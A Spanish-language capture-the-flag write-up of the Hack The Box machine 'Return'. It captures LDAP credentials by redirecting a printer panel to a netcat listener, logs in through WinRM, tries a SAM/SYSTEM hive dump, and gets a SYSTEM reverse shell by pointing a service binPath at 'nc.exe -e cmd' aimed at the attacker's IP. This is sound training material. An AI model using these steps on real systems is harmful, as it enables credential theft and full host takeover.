

# Return

`Return` es una máquina Windows de dificultad fácil que cuenta con un panel de administración de impresoras de red que almacena credenciales LDAP. Estas credenciales se pueden capturar ingresando un servidor LDAP malicioso que permite obtener acceso al servidor a través del servicio WinRM. Se descubrió que el usuario formaba parte de un grupo de privilegios que luego se explotó para obtener acceso al sistema.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Return**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.108 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 16:03 CET
Nmap scan report for 10.10.11.108
Host is up (0.096s latency).
Not shown: 65456 closed tcp ports (reset), 54 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49699/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 39.71 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.108
	[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49699

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos.

```bash
❯ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49699 10.10.11.108 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 16:05 CET
Nmap scan report for return.local (10.10.11.108)
Host is up (0.28s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-24 15:23:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|2012|2022|Vista|2016 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2019 (91%), Windows Server 2019 (90%), Microsoft Windows 10 1909 (88%), Microsoft Windows 10 1909 - 2004 (88%), Microsoft Windows 10 20H2 - 21H1 (88%), Microsoft Windows Server 2012 R2 (88%), Microsoft Windows Server 2022 (88%), Microsoft Windows Vista SP1 (87%), Microsoft Windows 10 1903 - 21H1 (86%), Microsoft Windows 10 20H2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 21 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m38s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-24T15:25:06
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   ... 20
21  386.45 ms return.local (10.10.11.108)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.93 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Initial Access

### Abusing Printer Admin Panel

Accederemos a [http://10.10.11.108](http://10.10.11.108) y nos encontramos que se trata de un panel de administración de una impresora.

<figure><figcaption></figcaption></figure>

En el apartado de `Settings`, logramos visualizar el siguiente contenido. Una dirección de servidor, puerto, usuario y unas credenciales en \*\*\*\*\*.

<figure><figcaption></figcaption></figure>

Probamos de verificar si estas credenciales estaban en formato `password` en el código, nos encontramos que es una cadena en formato `text`, por lo tanto no podemos realizar nada al respecto.

<figure><figcaption></figcaption></figure>

También verificamos que podemos modificar parte de las opciones que nos proporcionan. Por lo tanto, lo que probaremos es de ponernos en escucha por el puerto 389 que es el que está especificado en la impresora.

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
```

Volveremos al panel de adminsitración, y cambiaremos el `Server Address` por nuestra dirección IP, actualizaremos la configuración.

<figure><figcaption></figcaption></figure>

Verificamos que recibimos la autenticación del usuario `svc-printer` con su contraseña. Al modificar el `Server Address` por el nuestro, la impresora ha realizado la autenticación en nuestro equipo, mostrándonos las credenciales en texto plano al no haber un LDAP por atrás que valide estas credenciales.

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.108] 58464
0*`%return\svc-printer�
                       1edFg43012!!
```

### Abusing WinRM - EvilWinRM

Verificaremos si estas credenciales son válidas para el usuario. Verificamos que logramos comprobar y también conectarnos al equipo mediante `evil-winrm` y visualizar la flag de **user.txt**.

```bash
❯ nxc smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 

❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ../Desktop/user.txt
7f9f0efb4b**********************
```

## Privilege Escalation

Comprobaremos los permisos y grupos que dispone el usuario `svc-printer`. En el resultado obtenido, logramos verificar que este usuario tiene el privilegio de `SeBackupPrivilege` habilitado.

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### Dumping Credentials - SAM File Hashes (SeBackup Privilege) \[FAILED]

Probaremos de hacer un dump de la SAM para extraer el hash NTLM del usuario Administrator y verificar si nos sirve para ser usuarios administradores locales del equipo.

Exportaremos la `SAM` y `SYSTEM` y nos lo descargaremos en nuestro equipo local.

```powershell
*Evil-WinRM* PS C:\Temp> reg save HKLM\SAM C:\Temp\SAM
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save HKLM\SYSTEM C:\Temp\SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025   7:41 AM          49152 SAM
-a----        1/24/2025   7:42 AM       15937536 SYSTEM

*Evil-WinRM* PS C:\Temp> download SAM
                                        
Info: Downloading C:\Temp\SAM to SAM
                                        
Info: Download successful!


*Evil-WinRM* PS C:\Temp> download SYSTEM
                                        
Info: Downloading C:\Temp\SYSTEM to SYSTEM
                                        
Info: Download successful!
```

A través de la herramienta de `samdump2`, extraemos los hashes NTLM de la `SAM`.

```bash
❯ samdump2 SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* ä:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Verificaremos si el hash NTLM del usuario `Administrator` es válido. En este caso, no nos sirve el hash encontrado.

```bash
❯ nxc smb 10.10.11.108 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [-] return.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
```

### Abusing Server Operators Group

Revisando nuevamente los grupos a los cuales forma parte este usuario. Nos fijamos que forma parte del grupo `Server Operators`.

El grupo `Server Operators` es un grupo de seguridad integrado en los entornos de Windows Server. A los miembros de este grupo se les otorgan privilegios administrativos específicos que les permiten realizar tareas relacionadas con el servidor sin tener derechos administrativos completos. Este grupo está diseñado principalmente para la administración delegada del servidor. Privilegios clave de los operadores de servidor

Los miembros del grupo Operadores de servidor tienen los siguientes privilegios:

* **Iniciar y detener servicios:**
  * Pueden iniciar, detener y pausar servicios en el servidor, lo que es crucial para el mantenimiento y la resolución de problemas del servidor.
* **Administrar recursos compartidos:**
  * Los operadores de servidor pueden crear, modificar y eliminar carpetas compartidas y administrar recursos compartidos de impresoras, lo que les permite administrar recursos compartidos de manera eficaz.
* **Operaciones de copia de seguridad y restauración:**
  * Los miembros pueden realizar copias de seguridad de archivos y restaurar archivos a partir de copias de seguridad, lo que facilita la administración de los procesos de recuperación de datos.
* **Iniciar sesión localmente:**
  * Los miembros tienen la capacidad de iniciar sesión localmente en el servidor, lo que les permite administrar directamente el servidor a través de su consola.
* **Administrar usuarios y grupos locales:**
  * Pueden agregar o eliminar usuarios de grupos locales y administrar cuentas locales, lo que es importante para las tareas de administración de usuarios.

Hemos conseguido más información de lo que trata esta escalada de privilegios desde el siguiente blog donde se detalla la explotación.



```powershell
*Evil-WinRM* PS C:\Temp> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Desde el equipo procederemos a revisar los servicios que se encuentran en ejecución.

```powershell
*Evil-WinRM* PS C:\Temp> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Después de revisar los servicios que se encuentran en ejecución, el siguiente paso será subir al equipo víctima el binario `nc.exe` para posteriormente aprovechar de que formamos parte de este grupo, para modificar el `binPath` del servicio e indicarle que la ruta del servicio es la ejecución de una Reverse Shell utilizando el binario subido de `nc.exe`.

```powershell
*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025   8:06 AM          28160 nc.exe

Evil-WinRM* PS C:\Temp>
```

Verificamos que logramos modificar correctamente el `binPath` del servicio `VMTools`, también podemos utilizar el servicio `browser`.

```powershell
*Evil-WinRM* PS C:\Temp> sc.exe config VMTools binPath="C:\Temp\nc.exe -e cmd 10.10.16.5 443"
[SC] ChangeServiceConfig SUCCESS
```

En una terminal nos pondremos en escucha por el puerto especificado en el punto anterior.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Volveremos a la terminal del equipo víctima y procederemos a parar y volver a iniciar el servicio el cual hemos modificado el `binPath` para que ejecute la Reverse Shell.

```powershell
*Evil-WinRM* PS C:\Temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Temp> sc.exe start VMTools
```

Verificamos que al volver a iniciar el servicio, hemos logrado obtener conexión a través de la Reverse Shell, en este caso, el usuario que arranca el servicio es el usuario `NT AUTHORITY\SYSTEM`, lo cual tenemos control total sobre el equipo.

Logramos visualizar la flag de **root.txt**.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.108] 50086
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
00ac8a0f81**********************
```
